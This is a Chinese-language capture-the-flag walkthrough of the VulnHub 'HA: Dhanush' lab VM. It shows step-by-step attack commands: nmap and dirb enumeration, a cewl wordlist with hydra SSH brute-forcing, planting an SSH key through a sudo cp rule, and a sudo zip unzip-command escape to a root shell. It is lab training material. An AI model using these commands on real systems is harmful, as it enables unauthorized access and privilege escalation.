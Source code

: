 # HA: Dhanush

## 环境

虚拟机平台：VMware Workstation Pro

攻击机：Kali（IP：192.168.253.136）

靶机：Dhanush（IP：192.168.253.141）

下载：https://www.vulnhub.com/entry/ha-dhanush,396/

## Let's go

```
nmap -A -p- 192.168.253.141
```

![](./img/HA：Dhanush-01.png)

> **对网页进行浏览,然而并没有发现任何信息,我们进行枚举**

```
dirb http://192.168.253.141/
```

![](https://github.com/CHN-Han/Promote/tree/master/VulnHub/img/HA：Dhanush-02.png)

> **然而并没有发现什么有用的信息,因此怀疑是不是跟SSH有关**

```
cewl http://192.168.253.141/ -w 1.txt		# 爬取网站生成字典
hydra -L 1.txt -P 1.txt  -vV -e ns 192.168.253.141 ssh -s 65345
```

![](https://github.com/CHN-Han/Promote/tree/master/VulnHub/img/HA：Dhanush-03.png)

```
# username:pinak,password:Gandiv
ssh pinak@192.168.253.141 -p 65345
sudo -l
```

![](https://github.com/CHN-Han/Promote/tree/master/VulnHub/img/HA：Dhanush-04.png)

> **我们需要想办法切换到sarang用户,因此可以使用cp命令将SSH密钥复制到他的.ssh目录中**

```
ssh-keygen
cd .ssh/
chmod 777 id_rsa.pub
```

![](https://github.com/CHN-Han/Promote/tree/master/VulnHub/img/HA：Dhanush-05.png)

```
cp id_rsa.pub ../
cd ../
sudo -u sarang /bin/cp ./id_rsa.pub /home/sarang/.ssh/authorized_keys
ssh sarang@127.0.0.1 -p 65345
```

![](https://github.com/CHN-Han/Promote/tree/master/VulnHub/img/HA：Dhanush-06.png)

>**切换到sarang用户,发现root权限的zip命令**

![](https://github.com/CHN-Han/Promote/tree/master/VulnHub/img/HA：Dhanush-07.png)

```
touch get
sudo zip /tmp/get.zip /home/sarang/get -T --unzip-command="sh -c /bin/bash"
cd /root
cat flag.txt
```

![](https://github.com/CHN-Han/Promote/tree/master/VulnHub/img/HA：Dhanush-08.png)